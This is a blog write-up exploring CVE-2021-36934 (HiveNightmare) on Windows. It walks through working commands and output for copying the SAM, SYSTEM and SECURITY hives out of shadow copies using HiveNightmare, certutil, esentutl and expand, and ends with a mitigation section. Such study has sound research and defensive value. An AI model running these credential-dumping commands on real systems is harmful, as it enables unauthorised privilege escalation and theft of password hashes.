 ```yaml
---
layout: post
title: Abusing CVE-2021-36934 Windows privilege escalation
categories: [PrivEsc, Windows]
---
```



## **Intro**

Yesterday I start looking into CVE-2021-36934. This vulnerability abuse permissions of important files like SAM, ntds.dit, etc... All file location is C:\windows\system32\config

```powershell
PS C:\Users\user\test> icacls C:\Windows\System32\config\sam
C:\Windows\System32\config\sam BUILTIN\Administrators:(I)(F)
                               NT AUTHORITY\SYSTEM:(I)(F)
                               BUILTIN\Users:(I)(RX)
                               APPLICATION PACKAGE AUTHORITY\ALL APPLICATION PACKAGES:(I)(RX)
                               APPLICATION PACKAGE AUTHORITY\ALL RESTRICTED APPLICATION PACKAGES:(I)(RX)

Successfully processed 1 files; Failed processing 0 files
```

As you can see **BUILTIN\Users** have read access. I cant access this file as is currently used by windows processes by default. But Windows 10 have ability to have shadow copies. What is interesting is windows will always create shadow copy when provide system update. This will make sense as system after unsuccessful upgrade can revert back to last stable version.

## **Issues**

There is chance you dont have any shadows copied enabled and thats fine. In your environment you can enable it by running this [command](https://www.dxsdata.com/2017/10/windows-10-enable-and-configure-vss-shadow-copies/). 

```powershell
wmic shadowcopy call create Volume=c:\
```

I used [this tool](https://www.nirsoft.net/utils/shadow_copy_view.html) to confirm I have shadows copies. 

![](/images/cve202136934/vss.png)

As **Snapshot Name** there are 2 possible shadows copies I have on system. In examples below I only concern on first one. As attacker you dont have access to names and you have to enumerate. Most stupid and simples solution is wrap everything in powershell and one-liner 

```powershell
 $> 1..10 | % { expand "\\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy$_\Windows\System32\config\SYSTEM" c:\users\user\test\system$_ }
Microsoft (R) File Expansion Utility
Copyright (c) Microsoft Corporation. All rights reserved.

Copying \\?\globalroot\device\harddiskvolumeshadowcopy1\windows\system32\config\system to c:\users\user\test\system1.
\\?\globalroot\device\harddiskvolumeshadowcopy1\windows\system32\config\system: 12582912 bytes copied.

Microsoft (R) File Expansion Utility
Copyright (c) Microsoft Corporation. All rights reserved.

Copying \\?\globalroot\device\harddiskvolumeshadowcopy2\windows\system32\config\system to c:\users\user\test\system2.
\\?\globalroot\device\harddiskvolumeshadowcopy2\windows\system32\config\system: 12582912 bytes copied.

Microsoft (R) File Expansion Utility
Copyright (c) Microsoft Corporation. All rights reserved.

Can't open input file: \\?\globalroot\device\harddiskvolumeshadowcopy3\windows\system32\config\system.

Microsoft (R) File Expansion Utility
Copyright (c) Microsoft Corporation. All rights reserved.

Can't open input file: \\?\globalroot\device\harddiskvolumeshadowcopy4\windows\system32\config\system.
redacted...
 ```

 I was surprised that this worked on first time :) I loop from 1 to 10 and everytime there is symbol like this **$_** in command, it is replaced with number. Script is noisy and super ugly but working...




## **POC**

Kevin Beaumont posted exploit on his [github](https://github.com/GossiTheDog/HiveNightmare)

```powershell
PS C:\Users\user\downloads> .\HiveNightmare.exe

HiveNightmare v0.5 - dump registry hives as non-admin users

Specify maximum number of shadows to inspect with parameter if wanted, default is 15.

Running...

Newer file found: \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy1\Windows\System32\config\SAM

Success: SAM hive from 2021-07-22 written out to current working directory as SAM-2021-07-22

Newer file found: \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy1\Windows\System32\config\SECURITY

Success: SECURITY hive from 2021-07-22 written out to current working directory as SECURITY-2021-07-22

Newer file found: \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy1\Windows\System32\config\SYSTEM

Success: SYSTEM hive from 2021-07-22 written out to current working directory as SYSTEM-2021-07-22

Assuming no errors above, you should be able to find hive dump files in current working directory.
```

This application pull SAM, SYSTEM and SECURITY files from my shadow copy. 

## **Abusing Lolbas**

After looking for more resources someone on twitter posted interesting option to use certutil - if someone find this post please let me know as this person deserve credit and I cant find it.... 

```
certutil -encode "\\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy1\Windows\System32\config\SYSTEM" C:\users\user\test\SYSTEM.b64
```

This command will b64 encode SYSTEM file and save it to our destination. I can quickly run same program but with decode function

```
certutil -decode C:\users\user\test\SYSTEM.b64 C:\users\user\test\SYSTEM
```

Not I have SYSTEM file in my folder. That got me thinking if there is another lolbas application that can do "dirty work for me".

### Esentutl.exe

No problem for here :) 

```powershell
esentutl.exe /y "\\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy2\Windows\System32\config\SECURITY" /d C:\users\user\security /o
esentutl.exe /y "\\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy1\Windows\System32\config\SAM" /d C:\users\user\sam /o
esentutl.exe /y "\\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy1\Windows\System32\config\SYSTEM" /d C:\users\user\system /o
```

Esentutl have option /vss to copy directly from shadow copies. But we hit road block here

```powershell
PS C:\Users\user\test> esentutl.exe /y /vss c:\windows\system32\config\system /d c:\users\user\test\system

Extensible Storage Engine Utilities for Microsoft(R) Windows(R)
Version 10.0
Copyright (C) Microsoft Corporation. All Rights Reserved.

Initializing VSS subsystem...

   VSS Subsystem Init failed, 0x80070005
Operation terminated with error -2403 (JET_errOSSnapshotNotAllowed, OS Shadow copy not allowed (backup or recovery in progress)) after 0.16 seconds.
```

**Expand.exe & Extract32.exe**

Expand.exe and Extract32.exe gladly copy files I needed.

```powershell
expand "\\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy1\Windows\System32\config\SYSTEM" c:\users\user\test\system
expand "\\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy1\Windows\System32\config\SAM" c:\users\user\test\sam
expand "\\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy1\Windows\System32\config\SECURITY" c:\users\user\test\ssecurity
```

## **Commands that did not work**

Lolbas contain allpication that can copy files. I tried all of them here and few did not work. 

**Print.exe**

```powershell
PS C:\Users\user\test> print /D:C:\users\user\test\SYSTEM \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy1\Windows\System32\config\SYSTEM
Can't find file \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy1\Windows\System32\config\SYSTEM
```
Seems like print command cant access my shadow copy.

**Replace.exe**

```powershell
PS C:\Users\user\test> replace.exe \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy1\Windows\System32\config\SYSTEM C:\users\user\test /A
PS C:\Users\user\test> dir
PS C:\Users\user\test>
```

This command did not return any error so not sure what happen.  ¯\\_(ツ)_/¯

## **Mitigation**

Hazcod posted fix for this [issue](https://gist.github.com/hazcod/9cef0e6e9ca3a7c90c4b8e0d90ec9dce#file-cve-2021-36934-bat)
He delete all current shadow copies and applied rules to remove inheritance to misconfigured folder. And will create new shadow copy. This tricks seems to stop this attack vector

```powershell
C:\Users\user\Downloads>.\HiveNightmare.exe

HiveNightmare v0.5 - dump registry hives as non-admin users

Specify maximum number of shadows to inspect with parameter if wanted, default is 15.

Running...

Could not open SAM :( Is System Protection not enabled or vulnerability fixed?  Try increasing the number of VSS snapshots to search - list snapshots with vssadmin list shadows

C:\Users\user\Downloads>
```



## **Results**

Wau I never thought this will be relatively easy to pull. I believe there is even more options to somehow extract information you need. I will update this post if new techniques already exist.

Thank you for reading. 


